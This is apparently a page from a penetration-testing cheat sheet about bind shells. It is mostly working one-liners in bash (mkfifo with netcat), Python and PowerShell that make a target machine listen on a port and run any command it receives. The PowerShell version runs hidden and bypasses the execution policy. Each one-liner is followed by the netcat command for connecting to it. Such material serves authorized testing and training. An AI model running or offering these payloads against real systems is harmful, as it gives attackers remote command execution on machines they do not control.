 # Bind shell

A **Bind Shell** is a technique used to gain remote access to a victim's system by making it listen on a port and then connecting to that listener. The shell sent to listen is attached to the target's shell on the target system, letting us take control of the internal shell by connecting to it.

It is usually less effective than trying to get a [Reverse Shell](reverse-shell.md), as the hosts that use firewalls normally block incoming connections.

## <mark style="color:orange;">Basic script</mark>

* &#x20;Use a script that establishes a listening port on the target machine

{% code title="BindShell.sh" overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp $port >/tmp/f
```
{% endcode %}

* Connect to the listening port we have set using [_Netcat_](../networks/tools-and-utilities.md#netcat)

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}

## <mark style="color:orange;">Using Python</mark>

* &#x20;Use this command to establish a listening port on the target machine with _Python_

{% code overflow="wrap" lineNumbers="true" %}
```bash
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",$port));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endcode %}

* Connect to the listening port we have set using _Netcat_

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}

## <mark style="color:orange;">Using PowerShell</mark>

* &#x20;Use this command to establish a listening port on a _Windows_ target machine using PowerShell

{% code overflow="wrap" lineNumbers="true" %}
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]$port; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endcode %}

* Connect to the listening port we have set using _Netcat_

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}
